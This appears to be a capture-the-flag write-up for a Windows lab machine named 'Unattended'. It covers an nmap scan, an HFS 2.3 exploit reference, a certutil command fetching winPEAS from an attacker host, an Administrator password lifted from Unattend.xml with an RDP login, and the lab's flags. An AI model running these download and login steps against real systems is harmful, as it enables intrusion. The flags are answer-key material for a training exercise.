# UNATTENDED



## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## PORT 80 ENUMERATION

* HttpFileServer 2.3





## EXPLOIT WITHOUT METASPLOIT

* [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)




* WATCH THE NUMBER OF TRYS \(8\)



## WINPEAS

```text
certutil -urlcache -f http://10.10.0.63:8000/winPEASx64.exe winpeas.exe
```







* C:\Windows\Panther\Unattend.xml



```text
Administrator:cnt4weRAbtXMTSVV
```

## PRIVESC



* OR 

```text
xfreerdp /u:Administrator /p:cnt4weRAbtXMTSVV /cert:ignore /v:172.31.1.24
```



## FLAGS

### USER

```text
423b6ee873126a02f27afe8a4273e1ad
```

### ROOT

```text
e594fe8b3544d60110f79bb58245cbfd
```


